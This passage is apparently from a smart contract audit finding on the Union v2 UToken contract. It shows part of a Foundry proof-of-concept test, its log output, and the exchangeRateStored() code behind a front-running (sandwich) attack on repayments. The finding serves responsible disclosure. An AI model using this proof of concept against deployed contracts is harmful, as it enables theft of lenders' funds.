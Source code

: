 ```solidity
        vm.startPrank(BOB);
        uToken.redeem(uToken.balanceOf(BOB), 0);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] BOB balance:", uToken.balanceOf(BOB));
        console.log("[DAI]    BOB balance:", daiMock.balanceOf(BOB));

        currExchangeRate = uToken.exchangeRateStored();
        console.log("[3] Exchange rate:", currExchangeRate);
    }
```

### Result

```bash
[PASS] testMintRedeemSandwich() (gas: 560119)
Logs:

  [UToken] Total supply: 150000000000000000000
  [UToken] BOB balance: 100000000000000000000
  [DAI]    BOB balance: 0
  [1] Exchange rate: 1000000000000000000

  [UToken] Total supply: 150000000000000000000
  [UToken] ALICE balance: 0
  [DAI]    ALICE balance: 99474750000000000000
  [2] Exchange rate: 1000084166666666666

  [UToken] Total supply: 50000000000000000000
  [UToken] BOB balance: 0
  [DAI]    BOB balance: 100008416666666666600
  [3] Exchange rate: 1000084166666666668
```

## Impact

An attacker could always get profits from front-running repayments by taking advantage of `exchangeRateStored()` calculation before a repayment is made.

## Code Snippet

[exchangeRateStored()](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L467-L470)

```solidity
function exchangeRateStored() public view returns (uint256) {
    uint256 totalSupply_ = totalSupply();
    return totalSupply_ == 0 ? initialExchangeRateMantissa : (totalRedeemable * WAD) / totalSupply_;
}
```
